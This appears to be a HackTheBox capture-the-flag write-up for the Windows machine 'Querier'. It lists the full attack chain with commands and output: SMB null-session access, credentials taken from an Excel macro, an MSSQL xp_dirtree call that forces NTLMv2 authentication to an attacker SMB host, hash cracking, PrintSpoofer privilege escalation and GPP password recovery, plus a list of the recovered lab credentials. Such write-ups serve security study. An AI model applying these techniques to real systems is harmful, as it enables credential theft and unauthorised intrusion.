 ```yaml
---
description: >-
  Querier HTB Machine
title: Querier (Medium)                # Add title here
date: 2023-04-24 08:00:00 -0600                           # Change the date to match completion date
categories: [HackTheBox, Windows - Medium]                     # Change Templates to Writeup
tags: [smb null session, macro, xslm, mssql, xp_dirtree, impacket-smbserver, ntlmv2, printspoofer, seimpersonateprivilege, gpp credentials]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: true                                    # Change this to true
image: /assets/img/icons/Querier.png                # Add infocard image here for post preview image
---
```

### Host entries:
```bash
10.10.10.125 QUERIER querier.htb.local querier.htb
```
If Active Directory => [NTP Synchronization](https://shuciran.github.io/posts/NTP-Synchronization/) with the domain controller.

### Content

- SMB Null Session
- Macro identification on XSLM
- MSSQL connection and XP_DIRTREE abusing
- Capturing Hash NTLMv2 with impacket-smbserver
- SeImpersonatePrivilege abuse with PrintSpoofer
- Extra: Hardcoded Credentials on GPP

### Reconnaissance

Initial reconnaissance for TCP ports
```bash
nmap -p- -sS --open --min-rate 5000 -Pn -n -vvv -oG allPorts 10.10.10.125
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.10.10.125 ()   Status: Up
Host: 10.10.10.125 ()   Ports: 135/open/tcp//msrpc///, 139/open/tcp//netbios-ssn///, 445/open/tcp//microsoft-ds///, 1433/open/tcp//ms-sql-s///, 5985/open/tcp//wsman///, 47001/open/tcp//winrm///, 49664/open/tcp/////, 49665/open/tcp/////, 49666/open/tcp/////, 49667/open/tcp/////, 49668/open/tcp/////, 49669/open/tcp/////, 49670/open/tcp/////, 49671/open/tcp/////
```
Services and Versions running:
```bash
nmap -sCV -p 135,139,445,1433,5985,47001,49664,49665,49666,49667,49668,49669,49670,49671 -n -Pn -oN nmap/targeted $TARGET
Starting Nmap 7.92 ( https://nmap.org ) at 2023-04-24 22:25 EDT
Nmap scan report for 10.10.10.125
Host is up (0.14s latency).

PORT      STATE SERVICE       VERSION
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
1433/tcp  open  ms-sql-s      Microsoft SQL Server 2017 14.00.1000.00; RTM
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2023-04-25T02:05:06
|_Not valid after:  2053-04-25T02:05:06
| ms-sql-ntlm-info:
|   Target_Name: HTB
|   NetBIOS_Domain_Name: HTB
|   NetBIOS_Computer_Name: QUERIER
|   DNS_Domain_Name: HTB.LOCAL
|   DNS_Computer_Name: QUERIER.HTB.LOCAL
|   DNS_Tree_Name: HTB.LOCAL
|_  Product_Version: 10.0.17763
|_ssl-date: 2023-04-25T02:26:42+00:00; 0s from scanner time.
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
| ms-sql-info:
|   10.10.10.125:1433:
|     Version:
|       name: Microsoft SQL Server 2017 RTM
|       number: 14.00.1000.00
|       Product: Microsoft SQL Server 2017
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| smb2-time:
|   date: 2023-04-25T02:26:38
|_  start_date: N/A
| smb2-security-mode:
|   3.1.1:
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 66.20 seconds
```

SMB Server allows Null Session inside the share we identify the following file:
```bash
smbclient //10.10.10.125/Reports -N             

Try "help" to get a list of possible commands.
smb: \> 
smb: \> dir
  .                                   D        0  Mon Jan 28 17:23:48 2019
  ..                                  D        0  Mon Jan 28 17:23:48 2019
  Currency Volume Report.xlsm         A    12229  Sun Jan 27 16:21:34 2019
```
Analyzing such file with libre office we can see that there are some macros inside the file, and within there are some credentials:

![Description](/assets/img/Pasted image 20230424201223.png)

### Exploitation

Credentials can be abused to connect to the database via `-windows-auth` flag with `impacket-mssqlclient`
```bash
impacket-mssqlclient reporting:'PcwTWTHRwryjc$c6'@10.10.10.125 -p 1433 -windows-auth
```

Inside the database we figure out that we can abuse the store procedure `xp_dirtree` as follows:
```bash
# On MSSQL Database
SQL> xp_dirtree '\\10.10.16.3\smbFolder'

# On Local SMB Server
mssql-svc::QUERIER:aaaaaaaaaaaaaaaa:b3b0394de521e05770107d7fe25abf31:010100000000000000f37f0e2277d901ddf254c8a9edcf400000000001001000480077006100420072004e004c00700003001000480077006100420072004e004c00700002001000440078006c0055004d00510057004a0004001000440078006c0055004d00510057004a000700080000f37f0e2277d90106000400020000000800300030000000000000000000000000300000566073c64a37e4c7a4f134a66825f8122c78c7e68dc2e89ab9af254688c3e8680a0010000000000000000000000000000000000009001e0063006900660073002f00310030002e00310030002e00310036002e003300000000000000000000000000
```

Then we proceed to crack the hash with hashcat:
```bash
D:\Programas\hashcat-6.2.5>hashcat.exe -m 5600 -a 0 hash.txt rockyou.txt

mssql-svc::QUERIER:aaaaaaaaaaaaaaaa:b3b0394de521e05770107d7fe25abf31:010100000000000000f37f0e2277d901ddf254c8a9edcf400000000001001000480077006100420072004e004c00700003001000480077006100420072004e004c00700002001000440078006c0055004d00510057004a0004001000440078006c0055004d00510057004a000700080000f37f0e2277d90106000400020000000800300030000000000000000000000000300000566073c64a37e4c7a4f134a66825f8122c78c7e68dc2e89ab9af254688c3e8680a0010000000000000000000000000000000000009001e0063006900660073002f00310030002e00310030002e00310036002e003300000000000000000000000000:corporate568
```

### Root privesc
Enumerating the privileges with this user we identify the SeImpersonatePrivilege:

```powershell
C:\Windows\Temp\privesc> whoami /priv
PRIVILEGES INFORMATION
----------------------
Privilege Name   Description       
==============   ===========       
SeAssignPrimaryTokenPrivilege Replace a process level token SelncreaseQuotaPrivitege	Adjust memory quotas for a	process
SeChangeNotifyPrivilege	Bypass traverse checking
SelmpersonatePrivilege	Impersonate a client after	authentication
SeCreateGlobalPrivilege	Create global objects
SelncreaseWorkingSetPrivilege Increase a process working	set

```
Also enumerating the system server info we identify that this server is a Windows Server 2019:
```powershell
C:\Users\Administrator\Desktop> systemínfo
Host Name: QUERIER
OS Name: Microsoft Windows Server 2019 Standard
OS Version: 10.0.17763 N/A Build 17763
```
In order to abuse of SeImpersonatePrivilege we can abuse of [PrintSpoofer](https://github.com/itm4n/PrintSpoofer) to escalate privileges:
```powershell
C:\Windows\Temp\privesc> PrintSpoofer64.exe -i -c cmd
PrintSpoofer64.exe -i -c cmd
[+] Found privilege: SelmpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
Microsoft Windows [Version 10.0.17763.292]
(c) 2018 Microsoft Corporation. All rights reserved.
C:\Windows\system32>whoami whoami
nt authority\system
```

### Post Exploitation
There is another way to escalate privileges through hardcoded credentials of Administrator (this are to be found via WinPEAS.exe):
```powershell
C:\Windows\Temp\privesc> winPEASx64.exe

....
Cached GPP Passwords

C:\Documents and Settings\All Users\Application Data\Microsoft\Group Policy\History\{31B2F340-016D-11D2-945F-00C04FB984F9}\Machine\Preferences\Groups\Groups.xml
    Found C:\ProgramData\Microsoft\Group Policy\History\{31B2F340-016D-11D2-945F-00C04FB984F9}\Machine\Preferences\Groups\Groups.xml
    Name: Administrator
    NewName: [BLANK]
    cPassword: MyUnclesAreMarioAndLuigi!!1!
    Changed: 2019-01-28 23:12:48
...
```

### Credentials
```text
reporting:PcwTWTHRwryjc$c6
mssql-svc:corporate568
Administrator:MyUnclesAreMarioAndLuigi!!1!
```


